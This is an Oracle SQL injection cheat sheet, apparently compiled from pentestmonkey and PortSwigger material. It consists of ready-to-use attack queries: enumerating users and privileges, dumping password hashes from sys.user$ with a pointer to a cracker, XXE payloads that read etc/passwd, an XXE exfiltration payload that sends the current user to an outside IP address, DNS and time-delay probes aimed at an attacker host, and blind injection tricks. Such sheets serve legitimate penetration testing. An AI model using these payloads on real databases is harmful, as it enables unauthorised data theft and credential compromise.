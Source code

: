 SQLi - Oracle

# SQLi - Oracle

#### From:
- http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
- http://ferruh.mavituna.com/oracle-sql-injection-cheat-sheet-oku/
- http://www.securitytube.net/video/6138
- https://portswigger.net/web-security/sql-injection/cheat-sheet
 
### Enumeration

| Enumerate    | Command                 |
|--------------|-------------------------|
| Current User | `SELECT user FROM dual` |
|Database version |	`SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';` <br> `SELECT banner FROM v$version WHERE banner LIKE 'TNS%';` <br> `SELECT version FROM v$instance;`
|Current Database | `SELECT global_name FROM global_name;` <br> `SELECT name FROM v$database;`<br> `SELECT instance_name FROM v$instance;` <br> `SELECT SYS.DATABASE_NAME FROM DUAL;` |
| List Databases | `SELECT DISTINCT owner FROM all_tables;`|
|List Users | `SELECT username FROM all_users ORDER BY username;`|
| List Passwords (Privileged only) | `SELECT username FROM all_users ORDER BY username;` <br> `SELECT name,spare4 FROM sys.user$`|
| List Tables | `SELECT table_name FROM all_tables;` |
| Current Permissions | `SELECT * FROM DBA_SYS_PRIVS;` <br> `SELECT * FROM DBA_TAB_PRIVS;` <br> `SELECT * FROM DBA_ROLE_PRIVS;`
 
Dumping
You can dump tables very similar to any other query language.
```
SELECT * FROM <tablename>
```
 
### Notes
1. There is no LIMIT clause in Oracle. If the database is Oracle 12c R1 or above, use instead `FETCH NEXT 10 ROWS ONLY`
e.g.
```
SELECT * FROM APP_HISTORY  FETCH NEXT 100 ROWS ONLY
```
 
### Local file access

```
select extractvalue(xmltype('<!ENTITY xxe SYSTEM "etc/passwd">]>'||'&'||'xxe;'),'/l') from dual;
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "etc/passwd"> %remote; %param1;]>'),'/l') from dual;
```

### Data Exfiltration
https://blog.netspi.com/advisory-xxe-injection-oracle-database-cve-2014-6577/
https://exploitstube.com/sql-injection-abusing-xxe-in-oracle.html
```
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://66.35.63.202/'||(SELECT user FROM dual)||'"> %remote; %param1;]>'),'/l') from dual;
```

### Pentestmonkey - Oracle SQLi
http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
 
Some of the queries in the table below can only be run by an admin.  These are marked with “– priv” at the end of the query.

| Enumerate    | Command                 |
|--------------|-------------------------|
| Version      | `SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;` <br>	`SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;`<br>`SELECT version FROM v$instance;`|
|Comments | `SELECT 1 FROM dual — comment` <br> –NB: `SELECT` statements must have a `FROM` clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.|
| Current User | `SELECT user FROM dual` |
| List Users | `SELECT username FROM all_users ORDER BY username;` <br> `SELECT name FROM sys.user$; — priv` |
| List Password Hashes | `SELECT name, password, astatus FROM sys.user$ — priv`, <= 10g.  astatus tells you if acct is locked <br>  `SELECT name,spare4 FROM sys.user$ — priv`, 11g |
| Password Cracker | `checkpwd` will crack the DES-based hashes from Oracle 8, 9 and 10. |
| List Privileges | `SELECT * FROM session_privs;` — current privs <br> `SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’;` — priv, list a user’s privs <br> `SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’;` — priv, find users with a particular priv <br> `SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;` |
| List DBA Accounts | `SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’;` — priv, list DBAs, DBA roles |
| Current Database | `SELECT global_name FROM global_name;` <br> `SELECT name FROM v$database;` <br> `SELECT instance_name FROM v$instance;` <br> `SELECT SYS.DATABASE_NAME FROM DUAL;`|
| List Databases | `SELECT DISTINCT owner FROM all_tables;` — list schemas (one per user)<br> –Also query TNS listener for other databases.  See tnscmd (services | status).|
| List Columns | `SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’;`<br> `SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;`|
| List Tables | `SELECT table_name FROM all_tables;`<br> `SELECT owner, table_name FROM all_tables;`|
| Find Tables From Column Name | `SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’;` — NB: table names are upper case|
| Select Nth Row | `SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9;` — gets 9th row (rows numbered from 1)
| Select Nth Char | `SELECT substr(‘abcd’, 3, 1) FROM dual;` — gets 3rd character, ‘c’ |
| Bitwise AND | `SELECT bitand(6,2) FROM dual; — returns 2` <br> `SELECT bitand(6,1) FROM dual; — returns0`|
|ASCII Value -> Char | `SELECT chr(65) FROM dual; — returns A` |
|Char -> ASCII Value | `SELECT ascii(‘A’) FROM dual;` — returns 65 |
| Casting | `SELECT CAST(1 AS char) FROM dual;`<br>`SELECT CAST(’1′ AS int) FROM dual;`|
|String Concatenation| `SELECT ‘A’ || ‘B’ FROM dual;` — returns AB|
|If Statement | `BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;` — doesn’t play well with SELECT statements|
|Case Statement | `SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual;` — returns 1 <br>`SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual;` — returns 2|
| Avoiding Quotes | `SELECT chr(65) || chr(66) FROM dual;` — returns AB
| Time Delay | `BEGIN DBMS_LOCK.SLEEP(5); END;` — priv, can’t seem to embed this in a SELECT <br> `SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual;` — if reverse looks are slow <br> `SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual;` — if forward lookups are slow <br> `SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;` — if outbound TCP is filtered / slow<br> – Also see Heavy Queries to create a time delay |
| Make DNS Requests | `SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;` <br>`SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;`|
| Command Execution | Javacan be used to execute commands if it’s installed.ExtProc can sometimes be used too, though it normally failed for me. :-( |
| Local File Access | `UTL_FILE` can sometimes be used.  Check that the following is non-null: `SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;` <br>Java can be used to read and write files if it’s installed (it is not available in Oracle Express).|
| Hostname, IP Address | `SELECT UTL_INADDR.get_host_name FROM dual;` <br> `SELECT host_name FROM v$instance;` <br> `SELECT UTL_INADDR.get_host_address FROM dual;` — gets IP address <br> `SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual;` — gets hostnames|
| Location of DB files | `SELECT name FROM V$DATAFILE;`|
| Default/System Databases | `SYSTEM`<br>`SYSAUX`

### Misc Tips
In no particular order, here are some suggestions from pentestmonkey readers.
From Christian Mehlmauer:
| Enumerate    | Command                 |
|--------------|-------------------------|
| Get all tablenames in one string | `select rtrim(xmlagg(xmlelement(e, table_name || ‘,’)).extract(‘//text()’).extract(‘//text()’) ,’,') from all_tables` –  when using union based SQLI with only one row|
| Blind SQLI in order by clause	| `order by case when ((select 1 from user_tables where substr(lower(table_name), 1, 1) = ‘a’ and rownum = 1)=1) then column_name1 else column_name2 end` — you must know 2 column names with the same datatype|